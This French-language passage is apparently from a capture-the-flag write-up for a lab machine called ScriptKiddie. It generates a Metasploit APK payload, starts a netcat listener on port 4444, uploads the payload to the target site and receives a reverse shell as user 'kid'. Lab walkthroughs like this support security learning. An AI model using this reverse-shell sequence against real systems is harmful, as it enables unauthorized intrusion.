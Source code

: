 Tout est bon maintenant, le payload va nous créer un reverse shell avec netcat, le payload sera dans un fichier nommé `msf.apk`, et se connectera sur l'ip `10.10.14.16` et sur son port `4444`.

> exploit

```
[+] msf.apk stored at /root/.msf4/local/msf.apk
```

Ils nous ont créé le fichier dans le repertoire /root/.msf4/local/

Déplaçons ce fichier dans notre répertoire actuel.

> sudo mv /root/.msf4/local/msf.apk .
>

> ls -l

```bash
total 8,0K
-rw-r--r-- 1 root   root   1,7K  5 avril 16:33 msf.apk
drwxr-xr-x 2 ethost ethost 4,0K 22 mars  21:06 nmap
```



On va débuter l'écoute sur le port `4444`.

> nc -lnvp 4444



Allons upload notre payload sur le site.

![Screenshot_20210405_163857](ScriptKiddie.assets/Screenshot_20210405_163857.png)

Générons le fichier pour que notre payload soit exécuté.

```
Connection from 10.10.10.226:53498
whoami
kid
```

Nous voilà maintenant sur la machine cible.

